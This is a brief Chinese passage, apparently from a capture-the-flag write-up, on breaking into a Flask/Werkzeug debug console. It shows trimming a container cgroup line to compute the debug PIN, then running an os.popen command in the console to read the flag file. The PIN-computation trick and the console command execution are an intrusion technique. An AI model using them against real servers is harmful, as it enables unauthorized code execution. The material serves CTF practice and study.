 结果：

1:name=systemd:/kubepods.slice/kubepods-burstable.slice/kubepods-burstable-podcc096863_49c3_4caa_b633_05615b822d2b.slice/docker-b6ff692442683c70ab69d01d5310a9aba4d3014fc147c329891658c0e2048332

我们只要:

1:name=systemd:/docker-b6ff692442683c70ab69d01d5310a9aba4d3014fc147c329891658c0e2048332

然后填入脚本跑出来，在debug页面里面填pin码，然后直接控制台：

os.popen('cat /this_is_the_flag.txt').read()梭哈！
